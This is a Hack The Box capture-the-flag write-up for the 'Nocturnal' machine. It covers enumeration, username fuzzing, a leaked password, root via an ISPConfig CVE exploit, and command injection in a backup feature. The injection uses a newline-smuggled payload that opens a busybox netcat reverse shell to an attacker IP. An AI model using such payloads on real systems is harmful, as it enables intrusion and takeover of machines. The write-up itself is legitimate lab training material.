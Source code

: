 ```yaml
---
clayout: ctf
title: Noctural
date: 2025-05-24
image: /ctf/hack-the-box/machines/noctural/info-card.png
type: Hack The Box

ctf:
  - name: Noctural
    link: https://app.hackthebox.com/machines/656
    thumbnail: /ctf/hack-the-box/machines/noctural/info-card.png
    pwned:
      - link: https://www.hackthebox.com/achievement/machine/585215/656
        thumbnail: /ctf/hack-the-box/machines/noctural/pwned.png
---
```


# Enumeration

## Nmap Scan

The initial step involved performing a comprehensive Nmap scan to identify open ports and running services:

```bash
nmap -sC -sV -v -A -oN nmap.txt 10.10.11.64
```

**Nmap Results:**

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 RSA    202688700851eede3aa6204187962517
|   256 ECDSA  4f800533a6d42264e9ed14e312bc96f1
|   256 ED25519 d9881f68438ed42a52fcf066d4b9ee6b
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://nocturnal.htb/
```

| Port | Service | Version                                                       |
| ---- | ------- | ------------------------------------------------------------- |
| 22   | SSH     | OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0) |
| 80   | HTTP    | nginx 1.18.0 (Ubuntu)                                         |

The scan revealed two open services: SSH on port 22 and an HTTP server on port 80.

## Web Enumeration

### Hostname Resolution

The web server on port 80 redirected to `http://nocturnal.htb/`. To resolve this hostname locally, the following entry was added to `/etc/hosts`:

```bash
echo "10.10.11.64 nocturnal.htb" | sudo tee -a /etc/hosts
```

### Web Interface Analysis

Navigating to `http://nocturnal.htb` displays a login and registration interface:

* **Home Page**
  ![Home page](/ctf/hack-the-box/machines/noctural/home.png)

* **Register Form**
  ![Register form](/ctf/hack-the-box/machines/noctural/register.png)

* **Login Form**
  ![Login form](/ctf/hack-the-box/machines/noctural/login.png)

After registering and logging in, a user dashboard becomes accessible:

![Dashboard](/ctf/hack-the-box/machines/noctural/dashboard.png)

The application supports uploading the following file types: `pdf`, `doc`, `docx`, `xls`, `xlsx`, `odt`. These files can later be downloaded using a URL of the form:

```text
http://nocturnal.htb/view.php?username=<user>&file=<filename>
```

This hints at possible user enumeration via the `username` parameter.

### User Enumeration with FFUF

Using `ffuf`, we attempt to enumerate valid usernames based on the server’s responses:

```bash
ffuf -w /usr/share/wordlists/seclists/Usernames/Names/names.txt \
     -u "http://nocturnal.htb/view.php?username=FUZZ&file=file.pdf" \
     -H "Cookie: PHPSESSID=mspl3bsbgaamrho4b5sauk7u5k" \
     -fr "User not found."
```

**Command Breakdown:**

* `-w`: Wordlist for usernames
* `-u`: Target URL with `FUZZ` keyword for injection
* `-H`: Authenticated session cookie
* `-fr`: Response filter string to identify successful hits

The scan revealed a valid user: **amanda**.

![ffuf output](/ctf/hack-the-box/machines/noctural/ffuf.png)

Upon accessing Amanda's file list, we found a document named `privacy.odt`:

![Amanda list of files](/ctf/hack-the-box/machines/noctural/amanda-files.png)

**Contents of `privacy.odt`:**

```txt
Nocturnal has set the following temporary password for you: arHkG7HAI68X8s1J
```

Using it with the `amanda` account allows us to log in and access the **Admin Dashboard**:

![Admin dashboard](/ctf/hack-the-box/machines/noctural/admin-dashboard.png)

### Command Injection in Backup Feature

The dashboard lets you back up files using a zip command that looks like this:

```php
zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile . " 2>&1 &";
```

Using this payload we get a shell as the `www-data` user.

```bash
mypassword%0Abusybox%09nc%0910.10.14.10%094444%09-e%09/bin/sh
```

![www-data shell](/ctf/hack-the-box/machines/noctural/www-data-shell.png)

### Lateral Movement

We found a user named `tobias` in `/etc/passwd`.

The `login.php` file pointed to the SQLite DB:

```php
../nocturnal_database/nocturnal_database.db
```

Grabbed it with a simple HTTP server:

```bash
python3 -m http.server 1337
```

The `users` table had a hashed password for `tobias`. Cracked it using [CrackStation](https://crackstation.net/):

```
tobias:slowmotionapocalypse
```

Logged in via SSH as `tobias`.


# Privilege Escalation

### Local Port Discovery

A port scan on the local machine revealed that port **8080** was listening locally:

```bash
(netstat -punta || ss --ntpu)

tcp   0   0 127.0.0.1:8080   0.0.0.0:*   LISTEN   -
```

### Port Forwarding via SSH

To access the internal service, SSH port forwarding was established:

```bash
ssh tobias@10.10.11.64 -L 8081:127.0.0.1:8080
```

Navigating to `http://localhost:8081` reveals an **ISPConfig** login page:

![ISP config login](/ctf/hack-the-box/machines/noctural/isp-config-login.png)

Using credentials `admin:slowmotionapocalypse`, we logged in:

![ISP config dashboard](/ctf/hack-the-box/machines/noctural/isp-config-dashboard.png)

### Exploiting ISPConfig

The "Help" section shows the software version: `3.2.10p1`. A known remote code execution vulnerability exists for this version: [CVE-2023-46818](https://github.com/bipbopbup/CVE-2023-46818-python-exploit).

**Exploit Execution:**

```bash
python exploit.py http://127.0.0.1:8081/ admin slowmotionapocalypse
```

![ISP config exploit](/ctf/hack-the-box/machines/noctural/isp-config-exploit.png)

The exploit successfully yields a shell as the **root** user.
The root flag was retrieved from `/root/root.txt`
